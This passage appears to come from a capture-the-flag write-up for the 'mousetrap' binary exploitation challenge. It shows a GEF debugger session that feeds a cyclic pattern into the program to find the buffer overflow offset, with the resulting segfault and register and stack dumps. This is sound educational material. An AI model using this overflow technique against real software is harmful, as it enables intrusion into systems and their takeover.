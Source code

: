 From here I was asked for code sequence. Then offset of code sequence was found as follow:-

```php
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as `'$_gef0'`  
gef➤  run
Starting program: /home/gr4n173/mystuff/onlinectf/hackpack/pwn/mousetrapfile/mousetrap
Welcome little mouse
can you steal the cheese from the mouse trap
Name: aaaaaaaabaaaaaaacaaaaaaa@
Enter Code Sequence of 2624: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007e2 in `grab_cheese` ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdb60  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
$rbx   : 0x0               
$rcx   : 0x60              
$rdx   : 0x15              
$rsp   : 0x00007fffffffdb78  →  "daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaaja[...]"
$rbp   : 0x6161616161616163 ("caaaaaaa"?)
$rsi   : 0x00007fffffffdbe0  →  "kaaaaaaalaaaaaaamaaa\n"
$rdi   : 0x00007fffffffdbb0  →  "kaaaaaaalaaaaaaamaaa\n"
$rip   : 0x00000000004007e2  →  <grab_cheese+33> ret 
$r8    : 0x0               
$r9    : 0x1d              
$r10   : 0x00007ffff7feff40  →  `<strcmp+4464>` pxor xmm0, xmm0
$r11   : 0x00007ffff7f3fc00  →  `<__strcpy_avx2+0>` mov rcx, rsi
$r12   : 0x0000000000400630  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffdd90  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb78│+0x0000: "daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaaja[...]"	 ← $rsp
0x00007fffffffdb80│+0x0008: "eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaaka[...]"
0x00007fffffffdb88│+0x0010: "faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala[...]"
0x00007fffffffdb90│+0x0018: "gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaama[...]"
0x00007fffffffdb98│+0x0020: "haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n"
0x00007fffffffdba0│+0x0028: "iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n"
0x00007fffffffdba8│+0x0030: "jaaaaaaakaaaaaaalaaaaaaamaaa\n"
0x00007fffffffdbb0│+0x0038: "kaaaaaaalaaaaaaamaaa\n"	 ← $rdi
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4007db <grab_cheese+26> call   0x4005d0 <strcpy@plt>
     0x4007e0 <grab_cheese+31> nop    
     0x4007e1 <grab_cheese+32> leave  
 →   0x4007e2 <grab_cheese+33> ret    
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "mousetrap", stopped 0x4007e2 in `grab_cheese ()`, reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4007e2 → `grab_cheese()`
```